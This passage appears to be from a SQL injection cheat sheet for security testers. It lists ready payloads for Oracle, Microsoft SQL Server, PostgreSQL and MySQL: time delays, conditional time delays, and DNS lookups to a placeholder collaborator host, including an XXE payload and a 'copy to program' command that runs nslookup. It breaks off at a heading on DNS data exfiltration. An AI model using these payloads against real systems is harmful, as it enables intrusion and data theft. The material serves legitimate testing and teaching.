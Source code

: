 #### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|   |   |
|---|---|
|Oracle|`dbms_pipe.receive_message(('a'),10)`|
|Microsoft|`WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT pg_sleep(10)`|
|MySQL|`SELECT SLEEP(10)`|

## Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`|

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|   |   |
|---|---|
|Oracle|(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`|
|Microsoft|`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`|
|PostgreSQL|`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`|
|MySQL|The following techniques work on Windows only:<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

## DNS lookup with data exfiltration
